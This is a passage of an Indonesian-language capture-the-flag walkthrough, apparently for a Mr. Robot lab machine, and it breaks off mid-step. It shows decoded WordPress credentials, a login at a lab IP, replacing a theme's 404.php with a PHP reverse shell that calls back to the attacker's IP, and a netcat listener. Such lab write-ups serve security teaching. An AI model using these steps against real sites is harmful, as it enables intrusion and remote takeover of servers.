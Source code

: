 📌 Output:

```
elliot:ER28-0652
```

Jadi kita mendapatkan kredensial login WordPress langsung dari file ini:

* **Username:** elliot
* **Password:** ER28-0652

---

## 🔐 7. Login ke WordPress

Akses halaman login WordPress:

```
http://10.10.11.154/wp-login.php
```

Gunakan kredensial hasil decode:

* **Username:** elliot
* **Password:** ER28-0652

✅ Setelah login berhasil, kita bisa lanjut eksploitasi.

---

## 💣 8. Upload Reverse Shell via Theme Editor

Setelah login ke dashboard WordPress:

1. Buka menu **Appearance > Theme Editor**
2. Pilih file `404.php`
3. Ganti seluruh isi file dengan [PHP reverse shell dari pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
4. Ubah IP dan port kamu di baris berikut:

```php
$ip = 'YOUR_TUN0_IP';
$port = 4444;
```

✅ Simpan perubahan.

---

## 📡 9. Jalankan Netcat Listener

Di terminal kamu:

```bash
nc -lvnp 4444
```

Lalu akses file:
